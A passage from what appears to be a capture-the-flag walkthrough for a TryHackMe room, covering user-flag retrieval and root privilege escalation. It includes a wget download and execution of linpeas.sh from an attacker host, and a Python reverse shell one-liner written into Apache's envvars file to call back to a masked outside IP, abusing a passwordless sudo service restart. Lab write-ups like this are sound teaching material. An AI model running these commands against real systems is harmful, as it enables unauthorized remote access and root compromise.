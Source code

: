 ```bash
anders@...:/$ cd /home/anders
```

```bash
anders@...:/home/anders$ ls
user2.txt
```

```bash
anders@...:/home/anders$ cat user2.txt
THM{**********************}
```

<p>1.6. What is the user2.txt flag?<br>
<code>THM{**********************}</code></p>

<br>

<h1 align="center">Root</h1>

```bash
anders@...:/$ wget http://xx.xx.xx.xx:8000/linpeas.sh
```

```bash
anders@...:/$ chmod +x linpeas.sh
```

```bash
anders@...:/$ ./linpeas.sh
```

<img width="1220" height="615" alt="image" src="https://github.com/user-attachments/assets/bcb005ad-0634-45d3-8df6-ff7180d5e5db" />

<br>
<br>

```bash
anders@...:/$ sudo -l
Matching Defaults entries for anders on ...:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User anders may run the following commands on ...:
    (ALL) NOPASSWD: /sbin/service apache2 restart
```

```bash
echo 'python -c '\''import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xxx.xxx",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'\''' > envvars
```

```bash
anders@...:/etc/apache2$ echo 'python -c '\''import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xxx.xxx",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'\''' > envvars
```
